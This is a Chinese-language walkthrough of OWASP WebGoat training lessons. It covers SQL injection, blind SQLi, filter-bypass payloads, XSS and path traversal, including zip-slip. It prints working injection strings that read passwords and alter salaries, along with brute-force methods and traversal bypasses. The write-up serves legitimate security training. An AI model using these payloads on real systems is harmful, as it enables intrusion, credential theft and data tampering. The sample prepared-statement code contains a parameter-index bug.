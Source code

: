 ## （A3） Injection
### 1. SQL Injection (intro)
+ 1-2，查询语句  
```
select department from Employees where first_name='Bob'
```
+ 1-3,修改语句
```
update employees set department='Sales' where first_name='Tobi'
```
+ 1-4,修改表，添加字段
```
alter table employees add phone varchar(20)
```
+ 1-5,修改权限
```
grant select on grant_right to unauthorized_user
```
+ 1-9,最基本的sql注入，通过注入获取所有用户信息。
![img](img/3-1-9.png)  

+ 1-10,这关使用数字注入，数字注入就不用考虑引号的问题，更简单一些。
![img](img/3-1-10.png)  

+ 1-11, 这关还是字符串注入，获取全部用户信息  
![img](img/3-1-11.png)

+ 1-12,smith想看其他人的工资，然后把自己的工资改成最高的，其他人的工资在上一节已经获取了，可以看到最高的是83700，现在只要把smith的改成比这个大的数就可以。想要改数据库，这时就需要拼接sql了，一句sql是以分号结束的，所以只要加个分号，后面再拼接一个update语句就可以。
```
aa' or '1'='1';update  employees set salary=100000 where auth_tan='3SL99A
```
![img](img/3-1-12.png)

+ 1-13,正常完成入侵后需要清理痕迹，这关是需要删除日志表。直接拼接drop语句。
![img](img/3-1-13.png)


### 2. SQL Injection (advanced)
+ 2-3,这关是要获取其他表的数据，可以使用union，要注意的是union出来的字段要和原字段数量和类型保持一致，数量不够的可以用常数来补,根据提供的表数据
```
1' or '1'='1' union select userid,user_name,password,cookie,'aa','bb',5 from user_system_data where '1'='1
```
![img](/img/3-2-3.png)
可以看到dave的密码，填入check即可。

+ 2-5，这里有两个页面，要看哪里存在注入，除了手动试之外还可以借助sqlmap,先随便填个数据，保存到文件，putdata.txt.
```
sqlmap -r putdata.txt
```
![img](img/3-2-4-1.png)

可以看到注册页面的username_reg存在注入点，而且数据库类型是hsqldb。  
下面来分析一下，  
首先在登录页面，我们不管填什么，返回的都是no results matched ,try again。没有任何变化，得不到其他信息，所以没有注入。  
在注册页面，当我们使用tom注册时，发现返回的是用户已注册，而随便给他用户名去注册是提示的是注册成功，说明注册的时候，后端是去先查询用户名的。那这里就是一个注入点了。也就是布尔盲注。
![img](img/3-2-4-3.png)
接下来就是找tom的密码了，一开始我是用sqlmap按步骤去盲注，先获取数据库名，再获取表名，再查字段。但是这里都行不通，数据库名都拿不到。所以只能手动尝试了。  
首先判断是否有password字段   
这里我们可以尝试这样判断 password is not null, 返回true，说明存在，否则就是不存在。
![img](img/3-2-4-4.png)
已经注册，说明后面条件是true，字段名password是存在的。  
下面就开始tom的密码的长度，长度可以使用and length(password)=50来判断，具体多少就要多试了，我用了burpsuit来爆破。  
![img](img/3-2-4-2.png)

可以看出是23.  
因为是盲注，所以知道了密码长度，下面只能一个一个的猜了，使用and substring(password,1,1)='a' 语句，每一位都要所有字符，字母加数字还有特殊符号什么的，也只能用burpsuit爆破了，设置两个参数，一个位数，一个是字符。
![img](img/3-2-4-5.png)
可以看到最后密码是：thisisasecretfortomonly

+ 2-6，这关是选择题，但是我这里没有展示出来，跳过

### 3.SQL Injection (mitigation)

+ 3-5,这关就是写能防止注入的代码，使用预编译的方式。
![img](img/3-3-5.png)

+ 3-6,这也是写代码的。
```
try{
    Connection conn = DriverManager.getConnection(DBURL,DBUSER,DBPW);
    PreparedStatement statement = conn.prepareStatement("SELECT status FROM users WHERE name= ? and mail = ?");
    statement.setString(1, "aa");
    statement.setString(1, "bbm@com");
    ResultSet results = statement.executeQuery();
} catch(Exception e) {
    System.out.println("Oops. Something went wrong!");
}
```  
但是我这里一直报 complie is null

+ 3-9,这里是之前那个获取密码的关卡，但是添加了字符过滤，如果用之前的方法会提示不能有空格，所以要想办法转义掉空格，  
sql语句里注释会被替换为空格，所以最后sql为：
```
1'/**/or/**/'1'='1'/**/union/**/select/**/userid,user_name,password,cookie,'aa','bb',5/**/from/**/user_system_data/**/where/**/'1'='1
```  
+ 3-10,这一关加了更严格的过滤，如果把上面的语句输进去会发现，select和from没了，被过滤掉了。那要反过滤可以拼接selselectct,这样过滤掉select之后，刚好还剩select,from同理。最后语句为：
```
1'/**/or/**/'1'='1'/**/union/**/selselectect/**/userid,user_name,password,cookie,'aa','bb',5/**/frofromm/**/user_system_data/**/where/**/'1'='1

```
+ 3-12,这一关的注入点是在排序，我们需要通过注入找到一个ip地址，排序的注入点是在order by 后面拼接条件，也是盲注。  
order by case when (1=1) then ip else id end  
如果when 后面的条件是true，就是用ip排序，如果是false，就是id排序。我们就通过这个来判断。那我们想要目标ip的话需要构造的sql为：  
```
 order by case when (substring((select ip from SERVERS where hostname='webgoat-prd'),1,1)='1') then id else ip end
```  
这里有个问题是现在还不知道表名servers,这个表名其实就在报错信息里，
![img](img/3-3-13.png)  
这里的报错信息把整个sql都返回了，正常肯定是不会有的，这里估计就是为了方便。因为题目只需要我们猜前三位，所以直接爆破就可以。得到104


### 4. Cross Site Scripting
跨站脚本
+ 4-2， 这一关是获取cookie，打开一个先标签在控制台输入 alert(document.cookie)即可。

+ 4-7， 这里我们先点击 purchase,发现是card number会展示出来的，所以很明显，这里是可以注入的，我们输入
```
<script>alert('hello')</script>
```

就可以看到弹框。  
+ 4-10， 这关的是要找到隐藏的XSS，很多项目会写测试代码，这些测试代码页面看不到，但是代码里会有，而且一般安全性很低，所以会有潜在的xss，要在前端的代码里搜索了，做过前端的应该很熟。最后结果是： start.mvc#test

+ 4-11, 这关是在上一关找出的隐藏url上执行xss，所以在新tab打开url,并加上脚本：  
start.mvc#test/<script>webgoat.customjs.phoneHome()</script>  
观察控制台会打印出数字，填入即可。如果不行就需要就脚本先进行url编码再拼接。  

### 5. Cross Site Scripting (stored)
存储型跨站脚本
+ 5-3，这关直接在评论区输入脚本，再点击edit，就可以在控制台看到数字，再提即可。 

### 6. Path traversal
文件穿越

+ 6-2，文件穿越，主要是没有对文件保存的路劲进行限制，是由用户输入的，所有我们这里要知道服务器保存路劲是哪个参数，通过测试我们最后发现是跟这个fullname有关，修改为../test即可。
![img](img/3-6-2.png)

+ 6-3，这关在上一关基础上加了路劲过滤，我们想办法绕过，添加....//即可

+ 6-4，这一关将fullname字段修复，漏洞改在了filename.
![img](img/3-6-4.png)

+ 6-5,这关是让我们获取path-traversal-secret.jpg的图片，这个直接拼文件名就可以,注意文件名要url编码
![img](img/3-6-5.png)

+ 6-7，这一关是zip漏洞，java代码在解压zip文件是获取文件名会直接用，这时如果文件名是个多级的 像../../../../../../../tmp/evil.sh，这样就可以到达任意目录，通关方法就是下一节的说明，命令都有

